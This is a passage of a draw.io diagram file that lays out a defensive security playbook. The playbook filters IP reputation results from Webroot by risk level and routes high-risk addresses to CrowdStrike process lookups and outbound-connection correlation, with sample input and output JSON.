class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;168.63.129.16&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;80&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;3&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;54.183.140.32&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 29,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 2,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;54.183.140.32&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 917998624,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 29,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 2&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;54.183.140.32&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;29&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;2&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; }&lt;/p&gt;&lt;p&gt;]&lt;/p&gt;&lt;p&gt;&amp;nbsp;&amp;nbsp;&lt;/p&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="5285" y="685" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-196" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;&lt;div&gt;&lt;/div&gt;&lt;/div&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;Data Formatter&lt;/div&gt;&lt;div&gt;{% set results = PlaybookData | jsonpath(&#39;$.[&quot;Check IP Reputation - Webroot&quot;].rawData.results&#39;) %}&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;{{results|jsonpath(&#39;$[?queries.getinfo.riskLevel &amp;gt;= 5]&#39;)}}&lt;/div&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="5655" y="640" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-197" value="&lt;h1&gt;Output&lt;br&gt;&lt;/h1&gt;&lt;div&gt;&lt;div&gt;[&lt;/div&gt;&lt;div&gt;&amp;nbsp; {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;52.33.195.208&quot;,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 874628048,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 89,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 5&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; }&lt;/div&gt;&lt;div&gt;&amp;nbsp; },&lt;/div&gt;&lt;div&gt;&amp;nbsp; {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;100.64.0.6&quot;,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 1681915910,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 100,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 5&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; }&lt;/div&gt;&lt;div&gt;&amp;nbsp; },&lt;/div&gt;&lt;div&gt;&amp;nbsp; {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;204.79.197.239&quot;,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 3427780079,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 81,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 5&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; }&lt;/div&gt;&lt;div&gt;&amp;nbsp; },&lt;/div&gt;&lt;div&gt;&amp;nbsp; {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;13.107.21.239&quot;,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 225121775,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 83,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 5&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; }&lt;/div&gt;&lt;div&gt;&amp;nbsp; }&lt;/div&gt;&lt;div&gt;]&lt;/div&gt;&lt;div&gt;&amp;nbsp;&amp;nbsp;&lt;/div&gt;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="5655" y="675" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-201" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-198" target="NKeEgVbL9whLPdXC6YmX-199">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-203" value="Risk Level &amp;gt; 5&amp;nbsp;" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="NKeEgVbL9whLPdXC6YmX-201">
          <mxGeometry x="0.147" y="-4" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-202" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-198" target="NKeEgVbL9whLPdXC6YmX-200">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-204" value="Risk Level &amp;lt; 5&amp;nbsp;" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="NKeEgVbL9whLPdXC6YmX-202">
          <mxGeometry x="0.051" y="-2" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-198" value="Get Malicious IPs&lt;br style=&quot;border-color: var(--border-color);&quot;&gt;Data Formatter" style="rhombus;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="5690" y="810" width="135" height="130" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-199" value="Get Process Details by IPv4&lt;br&gt;Command - RSA_CrowdstrikeGetProcessbyIOCs" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="5970" y="770" width="350" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-200" value="Investigation-Correlate Malicious Outbound Connections&lt;br&gt;Command - RSA_CrowdstrikeGetProcessbyIOCs" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="5970" y="1020" width="350" height="60" as="geometry" />
        </mxCell>
      </root>
    </mxGraphModel>
  </diagram>
</mxfile>
